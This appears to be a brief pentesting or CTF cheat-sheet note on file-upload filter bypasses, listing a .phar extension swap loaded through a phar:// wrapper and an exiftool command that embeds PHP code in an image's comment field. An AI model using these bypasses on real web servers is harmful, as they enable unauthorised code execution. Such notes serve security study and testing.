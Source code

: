 ## FILE UPLOAD
### BYPASSES:
- `Instead of .php, we can use .phar and use ?page=phar://uploads`

- `exiftool -comment="<?php phpinfo(); ?>" nasa.png` - php into image